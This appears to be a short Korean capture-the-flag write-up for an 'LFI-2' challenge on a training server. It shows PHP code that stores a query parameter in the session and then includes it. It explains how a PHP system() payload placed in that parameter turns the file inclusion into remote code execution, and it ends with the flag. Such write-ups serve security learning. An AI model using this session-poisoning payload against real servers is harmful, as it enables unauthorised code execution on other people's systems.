


## LFI-2

```bash
session_start();
    # /readflag 를 실행(RCE)해야 flag 가 나옵니다.
    if (!isset($_GET["p"])) { include 'home.php'; }
    else { $_SESSION["p"] = $_GET["p"]; include $_GET["p"]; }
```

사용자의 입력값을 session 파일에 넣고 include를 하기 때문에 RCE가 발생한다는 점을 알 수 있다.

 DevTools 에서 확인했을 때 `e71b1113ed7c19debe4be192f0b95302` 를 가진다는 점을 파악했다.

```bash
http://edu.arang.kr:9205/?p=/tmp/sess_e71b1113ed7c19debe4be192f0b95302
```

이와 같이 url을 날렸을 때 



잘 작동하는 것을 확인할 수 있다.

/readflag 명령어를 실행해야하므로 sysyem 명령어를 이용해 페이로드를 구상하였다

```bash
http://edu.arang.kr:9205/?p=/tmp/%3C?php%20system(%22/readflag%22);?%3E/../../sess_e71b1113ed7c19debe4be192f0b95302
```



flag가 출력됨을 볼 수 있다 

flag{70be50b60b9d25d1f86a}
